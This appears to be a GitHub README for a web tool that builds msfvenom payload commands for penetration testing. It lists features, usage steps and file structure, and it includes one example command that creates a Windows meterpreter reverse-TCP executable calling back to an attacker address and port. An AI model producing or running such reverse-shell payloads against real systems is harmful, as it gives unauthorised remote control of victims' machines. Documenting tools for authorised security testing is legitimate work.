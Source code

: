 # MSFvenom Command Generator

This project is a simple MSFvenom Command Generator built with HTML, CSS, and JavaScript. It allows users to easily generate msfvenom payload commands by selecting payloads, configuring LHOST and LPORT values, and choosing the desired output format. This tool simplifies the process of crafting msfvenom commands for penetration testing purposes.

## Features

- **Payload Selection**: Choose from various payloads categorized into binaries, scripting, shellcode, and user creation.

- **Dynamic Form Fields**: Automatically update required fields based on the selected payload.

- **Customizable Output**: Select the desired output format (e.g., exe, elf, raw) and specify an output filename.

- **Command Generation**: Generate the msfvenom command dynamically and copy it for use.

## How to Use

1. Follow this link.

2. Select the desired payload from the dropdown list.

3. Fill in the required fields (LHOST, LPORT, etc.).

4. Choose the output format and specify a filename.

5. Click the **Generate Command** button to generate the msfvenom command.

6. Copy the generated command and use it in your terminal.

## File Structure

```bash
msfvenom-command-generator/
|-- assets/
|   |-- css/
|       |-- styles.css             # Styles for the interface
|   |-- img/
|       |-- favicon-potion.png     # Favicon icon
|   |-- js/
|       |-- script.js              # JavaScript for dynamic field updates and command generation
|-- index.html                     # Main HTML file
|-- README.md                      # Project documentation
```

## Example

Generated command example for Windows reverse shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

## Requirements

Any modern web browser (Chrome, Firefox, Edge, etc.).

Basic understanding of msfvenom and penetration testing.

## Contributing

Contributions are welcome! If you find any issues or have feature suggestions, feel free to open an issue or submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE). For more details, refer to the [MIT License](https://opensource.org/license/mit-0) file.

## Disclaimer

For educational and testing purposes only. Misuse of this tool for malicious activities is strictly prohibited
